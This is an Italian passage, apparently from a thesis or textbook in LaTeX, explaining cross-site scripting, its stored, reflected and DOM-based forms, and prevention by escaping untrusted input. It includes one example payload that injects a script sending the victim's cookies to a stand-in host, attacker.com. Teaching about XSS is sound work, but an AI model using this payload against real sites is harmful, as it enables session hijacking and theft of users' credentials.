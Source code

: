 Supponendo di avere una pagina che mostra a video il numero di carta di credito di un individuo, ottenuto attraverso i parametri in input dall'URL, l'attaccante potrà semplicemente costruire un URL con un valore del parametro \emph{CC} modificato e fare in modo che l'utente visiti tale URL per effettuare l'hijacking della sessione utente, come nell'esempio seguente:\\

\begin{lstlisting}[language=PHP]
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
\end{lstlisting}

Esistono tre diverse tipologie di cross site scripting:
\begin{itemize}
\item Stored: Il codice viene iniettato nel server in modo permanente, ad esempio in un database. La vittima riceve quindi lo script malevolo ad ogni visita della pagina che mostra a video quel valore.
\item Reflected: Il codice malevolo non viene iniettato nel server ma viene inviato alla vittima attraverso mezzi alternativi, come un email contenente un link. Quando l'utente clicca su tale link il codice viene eseguito.
\item DOM based: Un payload malevolo viene eseguito come risultato della modifica del DOM\footnote{Document Object Model} del browser dell'utente. La risposta HTTP in questo caso non cambia ma il codice contenuto nella pagina viene eseguito in modo diverso a causa delle modifiche al DOM.\\
E' diverso da stored e reflected XSS poichè in questo caso il payload malevolo non è nella pagina di risposta del server ad una richiesta.
\end{itemize}

Vulnerabilità di tipo XSS hanno impatto significativo sull'utente, meno significativo sull'applicazione (ad eccezione del caso stored, in cui l'applicazione è direttamente coinvolta).\\
Prevenire vulnerabilità di tipo XSS comporta la separazione tra dati non fidati ed il contenuto che viene inviato al browser. E' quindi necessario effettuare l'escape dei contenuti in input basati su codice HTML o Javascript, a seconda del contesto in cui tali dati verranno poi utilizzati.

